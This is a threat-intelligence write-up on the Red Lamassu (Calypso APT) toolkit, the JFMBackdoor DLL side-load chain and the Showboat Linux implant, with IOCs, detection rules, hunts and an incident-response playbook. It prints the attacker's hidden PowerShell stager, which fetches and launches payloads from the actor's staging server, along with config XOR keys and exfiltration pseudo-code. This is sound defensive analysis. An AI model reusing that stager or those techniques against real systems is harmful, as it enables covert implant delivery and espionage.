

# Red Lamassu / Calypso APT — JFMBackdoor (Windows side-load) and Showboat (Linux kworker masquerade) targeting Asian telecoms

## TL;DR

On 2026-05-21 PwC Threat Intelligence and Lumen Black Lotus Labs released
tandem reports detailing the toolkit used since at least mid-2022 by Red
Lamassu (a.k.a. Calypso APT), a PRC-aligned espionage actor operating out of
Sichuan / Chengdu against telecommunications and government entities in
Kazakhstan, Afghanistan, India, Azerbaijan and the Middle East. The PwC blog
deep-dives JFMBackdoor — a fully featured Windows implant delivered through
DLL side-loading of FLTLIB.dll under a copied fltMC.exe, with CppServer
TCPSession / WSSession / WSSSession transports talking to namefuture[.]site
fronted by Cloudflare. The Lumen blog deep-dives Showboat (also tracked as
kworker), a modular Linux ELF post-exploitation framework that masquerades
its process name as a kernel-worker thread, decrypts its config with the
cheeky XOR key "look me, AV!", and exposes SOCKS5 and portmap pivots to reach
internal LAN devices. Dwell time on the confirmed Afghan ISP victim ran from
2025-12-01 to 2026-02-03 (about nine weeks). Today's case matters because it
formalises a multi-platform telecom-espionage toolkit with infrastructure
overlap that survived three years of IP rotation.

## Attribution and confidence

- **Cluster (vendor):** **Red Lamassu** (PwC Threat Intelligence) — also
  tracked as **Calypso APT** in open-source reporting since 2019.
- **Aliases / overlap:** Calypso APT; Lumen describes "at least one and
  likely several" PRC-aligned activity clusters sharing the Showboat
  toolkit. Tooling overlap is intentional — China-nexus operators rotate
  shared frameworks such as PoisonIvy, ShadowPad and NosyDoor, so
  attribution by tooling alone is weakened by design.
- **Vendor discovery / publication:**
  - **PwC Threat Intelligence** (Cyber Threat Operations team), blog
    "Open Directory, Open Season: Inside Red Lamassu's JFMBackdoor"
    published 2026-05-21 — IOC GitHub repo `PwCUK-CTO/TI-blog-2026-Red-Lamassu-JFMBackdoor`.
  - **Lumen Black Lotus Labs** (Danny Adamitis, Steve Rudd; technical
    editing by Ryan English), blog "Introducing Showboat: A new malware
    family taunts defenses and targets international telecom firms"
    published 2026-05-21 — collaborative research with PwC.
- **Confidence:**
  - **High** on Red Lamassu / Calypso targeting Asian telecom — three years
    of overlapping PwC and Lumen telemetry, multiple confirmed victims,
    consistent infrastructure-cluster fingerprints.
  - **High** on the two-malware toolkit (JFMBackdoor + Showboat) being
    operated by the same cluster — same open directory at 23.27.201.160
    contained both samples in the same hosting window.
  - **Medium** on the secondary Showboat clusters being separate sub-groups
    versus campaign segmentation — Lumen calls out that 20 additional C2
    nodes shared metadata but generated unique SHA256 fingerprints,
    suggesting a common startup script across distinct operators.
- **Genealogy with this repo:**

| Day | Slug | Connection |
|---|---|---|
| Day 18 (2026-05-15) | `2026-05-15_EtherRAT-TukTuk-Gentlemen` | first Windows DLL side-load deep-dive of the diary (Greenshot, SyncTrayzor, docfx side-loads under TukTuk) — JFMBackdoor today is the Asian-telecom counterpart |
| Day 21 (2026-05-18) | `2026-05-18_SilverFox-ABCDoor-Tax-Phishing` | second Asian-region China-nexus case after Silver Fox — both rely on legitimate Windows binaries weaponised through DLL side-load |
| Day 23 (2026-05-20) | `2026-05-20_Storm-2949-Cloud-Identity-SSPR` | introduced "telemetry by certificate, not by IP" as a hunt pattern — extended here through X.509 fingerprint pivots |

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1566.002, T1608.001, T1105 | User pulls `1.bat` from the open directory at 23.27.201[.]160:8000 (delivery vector not publicly reported — likely phishing link or staged compromise of an internal share) |
| Execution | T1059.001, T1564.003 | `1.bat` launches `powershell -WindowStyle Hidden -Command` that uses Invoke-WebRequest to fetch FLTLIB.dll, fltMC.exe, scr.mui and flt.bin from the open directory into %TEMP% |
| Defense Evasion (side-load) | T1574.002, T1218 | A copy of the legitimate Filter Manager command-line tool (`fltMC.exe`) runs from %TEMP% and loads the attacker-supplied `FLTLIB.dll`, which XOR-decrypts `scr.mui` with the key `Zs0@31=KDw.*7ev` |
| Implant (in-memory) | T1620, T1055.002, T1027 | `flt.bin` is a shellcode stub that decodes and maps the JFMBackdoor PE (SHA256 `176aec5d33c459a4…`, 1,119,744 bytes) into memory |
| Persistence + Config | T1547, T1112 | Encrypted config persists under `C:\ProgramData\Microsoft\Network` and `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`; second config file `btasc.cfg` stores dynamic operator parameters |
| Command and Control | T1071.001, T1568.002 | JFMBackdoor speaks the CppServer TCPSession / WSSession / WSSSession transports to `namefuture[.]site` fronted by Cloudflare (origin 166.88.11.196) |
| Discovery + Operator Ops | T1083, T1057, T1113, T1112 | Full Windows CRUD: reverse shell (two variants, including a console-detached one), file CRUD, registry CRUD, screenshots (GDI+ → Base64 + XOR), TCP proxy |
| Lateral / Pivot | T1036.005, T1090, T1102.001 | Showboat ELF on Linux infrastructure devices masquerades as `kworker`, exposes SOCKS5 and portmap to reach LAN, uses Pastebin or online forums as dead-drop for the hide command |
| Collection + Exfil | T1005, T1041 | Long-dwell collection on telecom infra (Afghan ISP victim observed from 2025-12-01 to 2026-02-03 — about 9 weeks of beaconing) |



The diagram lays the JFMBackdoor Windows side-load chain in the left
"VICTIM HOST" lane (stages 1-7) and the Showboat Linux pivot in stage 8;
the right "ATTACKER C2" lane shows the dual cluster — JFMBackdoor on
namefuture[.]site fronted by Cloudflare, Showboat on telecom-themed
domains and the shared "My Organization" X.509 fingerprint. The
bidirectional yellow arrows highlight that JFMBackdoor C2 and the
Showboat SOCKS5 channel both reach the same origin set, even though the
front-end domains and IPs rotate.

## Stage-by-stage detail

### Initial Access — open-directory staging

PwC discovered an open directory hosted on `23.27.201[.]160` (active July
to October 2025) containing the seven side-load artefacts plus the
Showboat ELF sample (`systemd-ac-update`). The delivery vector that put
`1.bat` on a victim endpoint is not publicly documented; the most
plausible path is a phishing link or a compromised internal share that
references the open directory.

```text
URL: http://23.27.201[.]160:8000/1.bat
SHA256: a23d126f0446755859e4d81c0c9b50b65e0062c3de2a014c543f6b263321ad78
```

MITRE: T1566.002, T1608.001, T1105.

### Execution — hidden PowerShell stager

The `1.bat` content is a hidden-window PowerShell that fetches the four
side-load artefacts into `%TEMP%` and then runs `fltMC.exe` hidden:

```powershell
@echo off
powershell -WindowStyle Hidden -Command "& {
$downloadPath = '%TEMP%'
Invoke-WebRequest -Uri 'hxxp[:]//23.27.201[.]160:8000/flt.bin'    -OutFile '$downloadPath\flt.bin'
Invoke-WebRequest -Uri 'hxxp[:]//23.27.201[.]160:8000/FLTLIB.dll' -OutFile '$downloadPath\FLTLIB.dll'
Invoke-WebRequest -Uri 'hxxp[:]//23.27.201[.]160:8000/scr.mui'    -OutFile '$downloadPath\scr.mui'
Invoke-WebRequest -Uri 'hxxp[:]//23.27.201[.]160:8000/fltMC.exe'  -OutFile '$downloadPath\fltMC.exe'
Start-Process -FilePath '$downloadPath\fltMC.exe' -WindowStyle Hidden
}"
exit
```

PwC notes that the batch is not directly runnable as-is — each command
works in isolation but the script likely passes through an obfuscator
before execution.

MITRE: T1059.001, T1564.003, T1105.

### Defense Evasion — DLL side-load via fltMC.exe

The legitimate Microsoft `fltMC.exe` is the Filter Manager command-line
tool and ships exclusively in `C:\Windows\System32\`. A copy in `%TEMP%`
that loads an attacker-supplied `FLTLIB.dll` is the highest-confidence
anchor in the entire chain. `FLTLIB.dll` opens `scr.mui`, XOR-decrypts
it with the key `Zs0@31=KDw.*7ev` (15-byte rolling key applied to each
length-prefixed entry), and reads back the configuration:

```text
flt.bin
FLTLIB.dll
fltMC.exe
C:\Program Files (x86)\Windows Mail\wabmig.exe
C:\ProgramData\Microsoft\Network
SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
namefuture[.]site
```

MITRE: T1574.002, T1218.

### Implant (in-memory) — JFMBackdoor PE

`flt.bin` is a shellcode stub that decodes the embedded JFMBackdoor PE
and maps it into memory.

```text
SHA256: 176aec5d33c459a42e7e4e984a718c52e11213ef9a6aa961b483a836fc22b507
Filename: N/A (in-memory only)
File type: Win32 DLL
File size: 1,119,744 bytes
```

JFMBackdoor takes its name from the hardcoded internal path
`C:\Users\public\jfm`. The PE never touches disk in the executable form;
only the shellcode stub and the encrypted config persist on the
filesystem.

MITRE: T1620, T1055.002, T1027.

### Persistence + Config — ProgramData and Windows NT key

The implant persists its configuration under
`C:\ProgramData\Microsoft\Network` and the registry path
`SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`. A second
configuration file `btasc.cfg` stores dynamically-updated operator
parameters such as sleep intervals and C2 rotation.

MITRE: T1547, T1112.

### Command and Control — CppServer transports

JFMBackdoor uses the CppServer C++ network library and exposes three
transport variants:

- **TCPSession** — raw TCP socket
- **WSSession** — WebSocket
- **WSSSession** — WebSocket over TLS

The primary C2 is `namefuture[.]site` fronted by Cloudflare; the
Cloudflare origin certificate (serial `722215547421393549906800483143167899186483629093`)
was served by IP `166.88.11.196` and `139.180.223.193`. PwC's pivot via
`newsprojects[.]online` (serial `604003291824433169701962900588762674473924908065`)
identified eight additional historical IPs spanning 2023-2026.

MITRE: T1071.001, T1568.002.

### Discovery + Operator Ops — full Windows CRUD

The Appendix B of the PwC blog enumerates the full command set under
command codes `0xA` through `0x10`, including two reverse-shell variants
(`0xD` / `0xAD` — the latter detaches the console with `FreeConsole` +
`AttachConsole` to evade inspection), file CRUD (`0xE/0x4`, `0xE/0x7`,
`0xE/0x8`, `0xE/0x9`, `0xE/0xA`, `0xE/0xD`, `0xE/0xE`), file timestomp
(`0xE/0x10`), file-attribute modification (`0xE/0x11`), screenshot
capture via GDI+ (Base64 + XOR before disk write), and TCP proxy (`0xF`).

MITRE: T1083, T1057, T1090, T1113, T1112.

### Lateral / Pivot — Showboat kworker masquerade

The Lumen blog details the companion Linux toolkit. Showboat is a
modular ELF post-exploitation framework that:

- Masquerades its process name as `kworker` (Linux kernel-worker
  threads — these are kernel-space and never produce user-process
  telemetry; any user-space process named kworker is high-confidence
  malicious).
- Decrypts its embedded configuration with the XOR key `look me, AV!`
  (a literal taunt to AV vendors).
- Exposes `SOCKS5` (URL suffix `SKS`) and `portmap` (URL suffix `MAP`)
  functions over the same C2 channel to pivot inside the victim LAN.
- Uses a `hide` command that fetches operator-controlled code from
  Pastebin (or similar) as a dead-drop. A Pastebin snippet first posted
  in January 2022 was identified as one such dead-drop.

Decrypted configuration sample (from the Lumen-published sample):

```text
SERVER_ADDRESS = telecom.webredirect[.]org
RESOLVE_IP = NULL
SERVER_PORT = 80
PROXY_ADDRESS =
PROXY_PORT = 0
MIN_SLEEP = 5
MAX_SLEEP = 10
SLOW_MODE_MIN_SLEEP = 20
SLOW_MODE_MAX_SLEEP = 25
```

MITRE: T1036.005, T1090, T1102.001.

### Collection + Exfil — long-dwell telecom espionage

Lumen confirmed two victims through global telemetry:

- An Outlook server belonging to an Afghan ISP communicating with
  `194.135.25[.]132` from 2025-12-01 through 2026-02-03 (nine weeks).
- An Azerbaijan-based host in the same primary cluster.

The secondary clusters reached US victims (port 9999 SOCKS5 from
`192.9.141[.]111` 2025-11-27 to 2026-01-12) and Ukrainian Donbas-region
IPs from `64.176.43[.]209`. PwC's private reporting adds Kazakhstan,
Thailand and India to the victim set.

MITRE: T1005, T1041, T1090.003.

## RE notes

| Component | SHA256 | Lang | Packer | Notes |
|---|---|---|---|---|
| JFMBackdoor PE | `176aec5d33c459a42e7e4e984a718c52e11213ef9a6aa961b483a836fc22b507` | C++ (CppServer) | shellcode wrapper in `flt.bin` | 1,119,744 bytes Win32 DLL; never on disk in PE form |
| FLTLIB.dll loader | `047307aca3a94a6fc46c4af25580945defb15574fb236d13d2bb48037cc42208` | C++ | none | XOR key `Zs0@31=KDw.*7ev`, length-prefixed config entries |
| scr.mui config | `ea57b5768c84164fcdb25bb8338d660c5586e17e37cee924c4e5a745510925f3` | data | XOR-encrypted | Configuration store with C2 list and ASEP paths |
| flt.bin shellcode | `b77a233735ff237ab964d2bdb3f6d261a90efb2f86dcde458c419cee528686a9` | shellcode | embedded PE | Stub that decodes and maps the JFMBackdoor PE |
| Showboat ELF | `a05fbe8734a5a5a994a44dee9d21134ad7108d24ab0749499fe24fc4b36c4cbc` | C/C++ | none | AMD x86-64; zero AV detection at submission on 2025-05-05 and still zero through April 2026 |

The XOR key `Zs0@31=KDw.*7ev` is the strongest static anchor for the
Windows track — it is the same across at least three additional samples
(CiWinCng32.dll, a second scr.mui variant, sllauncherloc.dll) submitted
from Kazakhstan and China. The Showboat "look me, AV!" string is the
strongest static anchor for the Linux track and the basis of the YARA
heuristic.

Pseudo-code for the FLTLIB.dll config decryption:

```c
// XOR decrypt scr.mui — entries are 4-byte XOR'd length + XOR'd payload
const char *key = "Zs0@31=KDw.*7ev";   // 15 bytes
size_t keylen = strlen(key);
for (size_t i = 0; i < buflen; i++) buf[i] ^= key[i % keylen];
// Now parse length-prefixed entries until end-of-buffer
```

For Showboat, the PNG-field heartbeat encoding observed by Lumen:

```c
// Pseudo: build JSON blob with host info, encrypt with last-5 of UUID,
// base64-encode, then embed inside a PNG IDAT field for transport
char *blob = build_host_json(uuid, hostname, os, procs);
xor_with_uuid_tail(blob, uuid + strlen(uuid) - 5);
char *b64 = base64_encode(blob);
embed_in_png_idat(b64, &png_buf, &png_len);
http_post(c2, "/", png_buf, png_len);
```

## Detection strategy

### Telemetry that matters

- **Windows endpoints** — Sysmon EID 1 (process creation), EID 7 (image
  load — anchors the FLTLIB.dll load outside System32), EID 11 (file
  create — anchors the four-artefact staging in %TEMP%), EID 13
  (registry value set — anchors the ASEP under
  `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`), EID 22
  (DnsQuery — anchors the four JFMBackdoor C2 domains). Defender XDR
  tables: `DeviceProcessEvents`, `DeviceFileEvents`, `DeviceImageLoadEvents`,
  `DeviceRegistryEvents`, `DeviceNetworkEvents`.
- **Linux endpoints / edge** — auditd `execve` for user-space `kworker`,
  `connect()` syscalls from those PIDs, `memfd_create` and reads against
  `/proc/<pid>/maps` if Showboat hide is in use. Sysmon-for-Linux EID 1
  + EID 3 (connection).
- **Network** — TLS-SNI logs for `namefuture[.]site`, `cumm[.]info`,
  `xcent[.]online`, `newsprojects[.]online`, `telecom[.]webredirect[.]org`,
  `kaztelecom[.]shop`, `singtelcom[.]site`; X.509 fingerprint hunts
  on the full IP cluster.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [`sigma/jfmbackdoor_fltmc_sideload_fltlib_dll.yml`](./sigma/jfmbackdoor_fltmc_sideload_fltlib_dll.yml) | fltMC.exe executing from a user-writable path (not System32 / SysWOW64) |
| Sigma | [`sigma/jfmbackdoor_artifact_drop_temp_chain.yml`](./sigma/jfmbackdoor_artifact_drop_temp_chain.yml) | Hidden PowerShell with Invoke-WebRequest fetching FLTLIB.dll / flt.bin / scr.mui / fltMC.exe |
| Sigma | [`sigma/showboat_kworker_pastebin_deaddrop.yml`](./sigma/showboat_kworker_pastebin_deaddrop.yml) | User-space process named kworker + curl/wget to Pastebin or similar dead-drop |
| KQL | [`kql/jfmbackdoor_fltmc_sideload_chain.kql`](./kql/jfmbackdoor_fltmc_sideload_chain.kql) | DeviceFileEvents %TEMP% staging of 3+ side-load artefacts joined to DeviceProcessEvents fltMC.exe outside System32 within 1 h |
| KQL | [`kql/red_lamassu_c2_egress_telecom_themed_domains.kql`](./kql/red_lamassu_c2_egress_telecom_themed_domains.kql) | DeviceNetworkEvents egress to the eight Red Lamassu C2 domains and 12 IP anchors |
| KQL | [`kql/showboat_kworker_anomalous_egress.kql`](./kql/showboat_kworker_anomalous_egress.kql) | User-space kworker process + outbound TLS/SOCKS5 within 5 minutes |
| YARA | [`yara/RedLamassu_JFMBackdoor_Showboat_2026.yar`](./yara/RedLamassu_JFMBackdoor_Showboat_2026.yar) | Heuristics for JFMBackdoor PE and Showboat ELF + 11 known-hash anchors |
| Suricata | [`suricata/red_lamassu_2026_05.rules`](./suricata/red_lamassu_2026_05.rules) | DNS + TLS SNI + HTTP URI + X.509 fingerprint anchors (sids 8220001-8220010) |

### Threat hunting hypotheses

- **H1** — JFMBackdoor side-load chain through fltMC.exe from %TEMP%
  inside a 1 h window. See
  [`hunts/peak_h1_jfmbackdoor_fltmc_sideload.md`](./hunts/peak_h1_jfmbackdoor_fltmc_sideload.md).
- **H2** — Showboat user-space kworker masquerade with outbound HTTPS to
  the published Red Lamassu IP / domain set. See
  [`hunts/peak_h2_showboat_kworker_masquerade.md`](./hunts/peak_h2_showboat_kworker_masquerade.md).
- **H3** — Red Lamassu shared X.509 fingerprint pivot for primary
  cluster discovery. See
  [`hunts/peak_h3_red_lamassu_cert_pivot.md`](./hunts/peak_h3_red_lamassu_cert_pivot.md).

## Incident response playbook

### First 60 minutes (triage)

1. Isolate the suspect Windows endpoint with EDR network containment
   while preserving the network stack (do not power off — JFMBackdoor PE
   lives in memory only).
2. On the Linux edge / mail / Outlook server suspected of Showboat,
   capture memory with AVML or LiME before any disk action.
3. Pull the `%TEMP%` staging artefacts (`FLTLIB.dll`, `flt.bin`,
   `scr.mui`, `fltMC.exe`, `1.bat`) for forensic preservation and YARA
   confirmation against the published hashes.
4. Block the eight C2 domains and the 17 IP anchors at the egress proxy
   and the firewall back to mid-2022.
5. Hunt netflow for the X.509 fingerprint `27df47…` and the two
   Cloudflare-origin certificate serials across the entire estate.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Memory image (Windows) | host RAM | WinPMEM / DumpIt | JFMBackdoor PE lives only in memory; on-disk artefacts cover only the loader |
| Memory image (Linux) | host RAM | AVML / LiME | Showboat hides process from `ps` via hide command — memory dump bypasses |
| Side-load artefacts | `%TEMP%\FLTLIB.dll`, `%TEMP%\flt.bin`, `%TEMP%\scr.mui`, `%TEMP%\fltMC.exe`, `%TEMP%\1.bat` | EDR / SMB pull | Static anchors for YARA + hash matching |
| Encrypted config | `C:\ProgramData\Microsoft\Network\*` | EDR | Holds C2 list and updated parameters; decrypt with `Zs0@31=KDw.*7ev` |
| Persistence registry | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows` | reg.exe / EDR | ASEP path referenced in scr.mui |
| Sysmon EVTX | `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx` | EVTXECmd | EID 1 / 7 / 11 / 13 / 22 for the side-load chain |
| auditd logs | `/var/log/audit/audit.log` | ausearch | execve + connect for user-space kworker |
| Edge proxy logs | NGFW / SSE | SIEM | TLS-SNI and X.509 fingerprint anchors |
| Outlook server EVTX | Exchange logs | LogParser | Confirmed primary infection vector on the Afghan ISP victim |

### IR queries and commands

**Quick triage — Windows side-load staging in %TEMP%:**

```powershell
Get-ChildItem -Path $env:TEMP, "$env:LOCALAPPDATA\Temp", "$env:ProgramData\Microsoft\Network" `
  -Include FLTLIB.dll,fltMC.exe,scr.mui,flt.bin,1.bat -Recurse -ErrorAction SilentlyContinue |
  Select-Object FullName, Length, CreationTimeUtc, LastWriteTimeUtc,
                @{n='SHA256';e={(Get-FileHash $_.FullName -Algorithm SHA256).Hash}}
```

**Confirm fltMC.exe is running from a non-System32 path:**

```powershell
Get-CimInstance Win32_Process -Filter "Name='fltMC.exe'" |
  Where-Object { $_.ExecutablePath -notlike 'C:\Windows\System32\*' -and
                 $_.ExecutablePath -notlike 'C:\Windows\SysWOW64\*' } |
  Select-Object ProcessId, ExecutablePath, CommandLine, CreationDate
```

**Linux — list user-space processes whose `comm` is `kworker`:**

```bash
for pid in $(pgrep -f kworker); do
  exe=$(readlink -f /proc/$pid/exe 2>/dev/null)
  if [ -n "$exe" ] && [[ "$exe" != /usr/* && "$exe" != /sbin/* && "$exe" != /bin/* ]]; then
    printf "PID %s  EXE=%s  CMD=%s\n" "$pid" "$exe" "$(tr '\0' ' ' < /proc/$pid/cmdline)"
  fi
done
```

**Defender XDR — hunt for fltMC.exe outside System32 in the last 30 days:**

```kql
DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName =~ "fltMC.exe"
| where not (FolderPath startswith "C:\\Windows\\System32" or FolderPath startswith "C:\\Windows\\SysWOW64")
| project Timestamp, DeviceName, FolderPath, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
```

### Containment, eradication, recovery

- **What NOT to do** — do not reboot the Windows host before memory
  capture. JFMBackdoor lives only in memory; rebooting destroys the PE
  evidence and the operator's recent C2 traffic.
- **What NOT to do** — do not change the AV signature locally before
  taking a host snapshot. Showboat's hide command may have already
  retrieved fresh dead-drop code from Pastebin; you want that snapshot
  for attribution.
- **What NOT to do** — do not block only the front-end Cloudflare
  domains. Block the Cloudflare-origin IPs and the X.509 fingerprint
  too; the operator can rotate the domain in minutes.
- **Exit criteria** — no Sigma/KQL/YARA hits across the estate for 14
  days, no DNS or TLS-SNI hits in passive logs, all secrets known to
  have been within reach of the side-load artefacts rotated.

### Recovery validation

- Pull fresh memory dumps of the affected hosts 7, 14 and 30 days after
  remediation and run the YARA heuristics on each.
- Repeat the X.509 fingerprint pivot once a week — Red Lamassu rotates
  IPs every 4-6 weeks but reuses the My Organization certificate
  generation pattern.
- Compare passive DNS for the Cloudflare-origin certificate serials
  monthly against ANY internal egress.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| sha256 | `176aec5d33c459a42e7e4e984a718c52e11213ef9a6aa961b483a836fc22b507` | JFMBackdoor PE in-memory | high | PwC TI 2026-05-21 |
| sha256 | `047307aca3a94a6fc46c4af25580945defb15574fb236d13d2bb48037cc42208` | FLTLIB.dll loader | high | PwC TI 2026-05-21 |
| sha256 | `b77a233735ff237ab964d2bdb3f6d261a90efb2f86dcde458c419cee528686a9` | flt.bin shellcode stub | high | PwC TI 2026-05-21 |
| sha256 | `ea57b5768c84164fcdb25bb8338d660c5586e17e37cee924c4e5a745510925f3` | scr.mui XOR config | high | PwC TI 2026-05-21 |
| sha256 | `a05fbe8734a5a5a994a44dee9d21134ad7108d24ab0749499fe24fc4b36c4cbc` | Showboat ELF systemd-ac-update | high | PwC TI + Lumen 2026-05-21 |
| domain | `namefuture[.]site` | JFMBackdoor primary C2 (Cloudflare front) | high | PwC TI 2026-05-21 |
| domain | `cumm[.]info` / `en[.]cumm[.]info` | JFMBackdoor secondary C2 | high | PwC TI 2026-05-21 |
| domain | `xcent[.]online` | JFMBackdoor secondary C2 | high | PwC TI 2026-05-21 |
| domain | `telecom[.]webredirect[.]org` | Showboat primary C2 | high | Lumen BLL 2026-05-21 |
| domain | `kaztelecom[.]shop` | Showboat telecom-impersonating C2 | high | Lumen BLL 2026-05-21 |
| domain | `singtelcom[.]site` | Showboat telecom-impersonating C2 | high | Lumen BLL 2026-05-21 |
| domain | `newsprojects[.]online` | Showboat C2 with shared Cloudflare cert | high | PwC TI 2026-05-21 |
| ipv4 | `23.27.201.160` | Open directory + Showboat C2 (Jul-Oct 2025) | high | PwC TI + Lumen 2026-05-21 |
| ipv4 | `139.84.227.139` | Showboat primary origin | high | Lumen BLL 2026-05-21 |
| ipv4 | `166.88.11.196` | JFMBackdoor Cloudflare origin | high | PwC TI 2026-05-21 |
| string | `Zs0@31=KDw.*7ev` | FLTLIB.dll XOR key for scr.mui | high | PwC TI 2026-05-21 |
| string | `look me, AV!` | Showboat XOR key for embedded config | high | Lumen BLL 2026-05-21 |
| string | `27df475626aafce2ea1548a9f35efb9ad951298c8b11a6adb3ccdfcd5170c677` | My Organization X.509 fingerprint | high | Lumen BLL 2026-05-21 |

Full IOC list in [`iocs.csv`](./iocs.csv).

## Secondary findings

- **SonicWall Gen6 SSL-VPN MFA bypass — CVE-2024-12802 partial patch
  exploited at scale (BleepingComputer + ReliaQuest, 2026-05-20).**
  Threat actors brute-forced UPN-format credentials against patched
  Gen6 SSL-VPN appliances, bypassing MFA because the firmware fix
  requires six manual post-patch steps that standard patch-management
  tooling does not track. Time-to-file-server under 30 minutes; Akira
  affiliate activity confirmed. Affects NSa 2700-6700 running SonicOS
  7.0 to 7.1.1. Reinforces the Day 19 / Day 22 pattern: a CVSS 9+ patch
  is not "applied" without the manual hardening checklist alongside.

- **Drupal Core SA-CORE-2026-004 / CVE-2026-9082 — unauth SQLi to RCE on
  PostgreSQL backends (Drupal Security Team + Tenable, 2026-05-20).**
  Highly critical (20 of 25) SQL injection in the PostgreSQL
  EntityQuery condition handler; unauth attacker can data-exfil and in
  some configurations reach RCE. Affects Drupal 8 and later; MySQL /
  MariaDB / SQLite backends are not vulnerable. PoC published same day,
  patch diff public within hours — expect mass exploitation by next
  Monday.

- **Operation Saffron — First VPN takedown by Europol + French + Dutch
  authorities (Help Net Security + Europol, 2026-05-19/20).**
  33 servers seized; covert access to the criminal VPN's infrastructure
  intercepted live traffic from 25+ ransomware groups including Avaddon
  successors. Domains `1vpns.com`, `1vpns.net`, `1vpns.org` and onion
  mirrors all taken down. CTI value: VPN telemetry from the seizure
  window will surface previously-undisclosed infrastructure links for
  multiple e-crime clusters in the coming weeks.

## Pedagogical anchors

- **DLL side-loading remains the dominant Windows-implant evasion pattern
  in 2026.** Anchor detection on the legitimate-binary path, not the
  malicious DLL hash — the path anomaly (fltMC.exe outside System32) is
  immutable across hash rotations.
- **Process-name masquerading on Linux has one structural giveaway** —
  real `kworker` threads are kernel-space only. Any user-space process
  whose `comm` is kworker is malicious. Compile the detection logic into
  EDRs that hook `execve` so the binary's real `exe` path is captured.
- **X.509 certificate fingerprints outlast IP rotation.** Red Lamassu's
  primary cluster shared one SHA256 fingerprint across 20+ C2 nodes for
  3 years. Hunt by certificate, by serial number for fronted services,
  not by hostname. This is the same lesson as Day 23 (cloud cert hunts)
  applied to APT espionage infrastructure.
- **A single open-directory discovery cascades into a full kill chain.**
  PwC and Lumen built two complementary blogs out of one IP and one
  shared X.509 fingerprint. When you find an open directory, exhaust
  the certificate pivots before the artefacts.
- **Side-load artefact filenames are the cheapest hunt anchor.** Once a
  file named `scr.mui` is on disk outside a Microsoft-controlled path,
  the chance of benign use is effectively zero. The same holds for
  `flt.bin` paired with `FLTLIB.dll` in `%TEMP%`.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This write-up |
| [`kill_chain.svg`](./kill_chain.svg) | Two-lane kill-chain diagram with detection anchors |
| [`iocs.csv`](./iocs.csv) | Full IOC list (hashes, domains, IPs, paths, strings, certs) |
| [`sigma/jfmbackdoor_fltmc_sideload_fltlib_dll.yml`](./sigma/jfmbackdoor_fltmc_sideload_fltlib_dll.yml) | Sigma — fltMC.exe outside System32 anchor |
| [`sigma/jfmbackdoor_artifact_drop_temp_chain.yml`](./sigma/jfmbackdoor_artifact_drop_temp_chain.yml) | Sigma — hidden PowerShell + Invoke-WebRequest fetching the four artefacts |
| [`sigma/showboat_kworker_pastebin_deaddrop.yml`](./sigma/showboat_kworker_pastebin_deaddrop.yml) | Sigma — user-space kworker + dead-drop site egress |
| [`kql/jfmbackdoor_fltmc_sideload_chain.kql`](./kql/jfmbackdoor_fltmc_sideload_chain.kql) | KQL — staging-to-execution join inside 1 h |
| [`kql/red_lamassu_c2_egress_telecom_themed_domains.kql`](./kql/red_lamassu_c2_egress_telecom_themed_domains.kql) | KQL — egress to the eight C2 domains plus the 12 IP anchors |
| [`kql/showboat_kworker_anomalous_egress.kql`](./kql/showboat_kworker_anomalous_egress.kql) | KQL — kworker masquerade join with DeviceNetworkEvents |
